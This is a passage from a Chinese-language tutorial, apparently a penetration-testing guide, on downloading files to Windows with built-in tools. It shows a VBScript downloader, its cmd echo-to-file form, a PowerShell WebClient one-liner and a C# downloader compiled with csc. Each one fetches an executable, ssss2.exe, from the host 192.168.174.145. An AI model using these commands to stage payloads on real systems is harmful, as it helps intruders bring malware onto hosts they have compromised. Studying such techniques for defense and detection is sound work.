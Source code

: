 ```
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.174.145/ssss2.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\test\update\ssss2.exe",2

```

对应到cmd下的命令为：

```
echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
echo Post.Open "GET","http://192.168.174.145/ssss2.exe",0 >>download.vbs
echo Post.Send() >>download.vbs
echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
echo aGet.Mode = 3 >>download.vbs
echo aGet.Type = 1 >>download.vbs
echo aGet.Open() >>download.vbs
echo aGet.Write(Post.responseBody) >>download.vbs
echo aGet.SaveToFile "C:\test\update\ssss2.exe",2 >>download.vbs

```

按顺序依次执行后会生成download.vbs，然后执行download.vbs即可实现下载ssss2.exe

### 4、powershell

cmd：

```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://192.168.174.145/ssss2.exe','C:\test\update\ssss2.exe')

```

### 5、csc

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

c# downloader的代码为：

```
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.174.145/ssss2.exe";
            string receivePath = @"C:\test\update\";
            client.DownloadFile(URLAddress, receivePath + System.IO.Path.GetFileName
        (URLAddress));
        }
    }
}

```

